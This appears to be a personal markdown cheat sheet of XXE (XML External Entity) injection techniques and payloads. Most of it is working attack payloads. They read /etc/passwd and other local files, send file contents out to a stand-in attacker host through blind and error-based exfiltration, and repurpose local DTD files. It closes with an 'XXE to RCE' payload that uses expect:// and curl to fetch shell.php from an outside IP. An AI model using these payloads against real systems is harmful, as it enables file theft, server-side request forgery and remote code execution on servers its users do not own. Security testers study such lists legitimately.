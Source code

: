 # XXE Injection
	XXE : XML External Entity

XXE is the use of xml requests to perform arbitiray requests

###### XXE types : 
- XXE to retrive files 
- XXE to Perform SSRF
- Blind XXE to exfiltrate data
- **XXE To RCE**

###### techniques:
- remove `<?xml>` from the payload
- combian between payloads to bypass some xml hardening 
- some xxe are not present in the request but can by exploited via using `Xinclude`  to edit part of the xml file 
- XXE via upload file, details on payloadAllThings
- [XXE attacks via modified content type](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files:~:text=XXE%20attacks%20via%20modified%20content%20type)
- XXE by editing local dtd file, files always existing, [resource](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
```
file:///usr/share/yelp/dtd/docbookx.dtd
file:///C:\Windows\System32\wbem\xml\cim20.dtd
```


payloads:
- [payloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)
- php filter
```php
# base64 encode
php://filter/convert.base64-encode/resource=
```
- __XXE via normal entity__ [DETECTION]
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
<tag>&ext;</tag>
```
- __BLIND XXE via XML parameter entity__ [DETECTION]
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; %xxe;/]>
```
- __BLIND XXE__ [EXIF]
+ external dtd file:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;
```
- XXE simple payload:
	```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
- __BLIND XXE via error message__ [EXFIL]
	```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;
```
- __BLIND XXE via repurposing a local DTD__ [EXFIL]
```xml
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> <!ENTITY % custom_entity ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
```
- __locate Local DTD file__ [ENUM]
	```xml
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>
``` 
- __using Xinclude to retrive files when can't edit DOCTYPE__ 
	```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- XXE to RCE in php
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'10.10.14.2/shell.php'">
]>
<root>
<name>Joe</name>
<tel>ufgh</tel>
<email>START_&file;_END</email>
<password>kjh</password>
</root>
```
